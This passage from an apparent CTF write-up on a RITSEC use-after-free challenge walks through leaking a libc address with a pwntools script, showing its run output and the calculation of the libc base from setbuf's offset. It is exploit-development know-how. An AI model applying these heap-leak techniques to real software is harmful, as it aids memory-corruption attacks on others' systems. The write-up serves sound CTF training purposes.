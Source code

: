 ```python

leak = view(r, 1)
print(leak)

r.interactive()
```

```
$ ./test.py 
[+] Starting local process './ld-2.27.so': pid 5247
[*] '/home/bugs/projects/ctf/ritsec/pwn/uaf/uaf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Creating chunk with contents b'AAAAAAAA'
[*] Creating chunk with contents b'BBBBBBBB'
[*] Creating chunk with contents b'A'
[*] Creating chunk with contents b'B'
b'B\x85\x08\x88\xab\x7f\n'
```

```python
>>> hex(u64(b"B\x85\x08\x88\xab\x7f\x00\x00"))
'0x7fab88088542'
>>> 
```

Great! We succesfully leaked libc. We can even see the "B" or 0x42 we overwrote the least signiticant byte with. From here we need to calculate the `base address` of `libc`. In order to accomplish this, we need to know at what relative address setbuf is located:

```
$ objdump -D ./libc.so.6 | grep -i setbuf
[...]
0000000000088540 <setbuf@@GLIBC_2.2.5>:
[...]
```

The offset is `0x88540`, but we overwrote the last byte with 0x42, so the actual offset we leaked is at `0x88542`, which means we need to substract `0x88542` from the leaked address to calculate the `base address`. This makes perfect sense in the previously leaked value: 

```
0x7fab88088542 - 0x88542 = 0x7fab88000000
```

To parse this leak neatly, we add the following code: 

```python
[...]
libc = ELF("./libc.so.6")
# leak libc
libc_leak = u64(view(r, 1).strip().ljust(8, b"\x00"))
info(f"libc_leak: {hex(libc_leak)}")

libc_base = libc_leak - 0x88542
info(f"libc_base: {hex(libc_base)}")
```
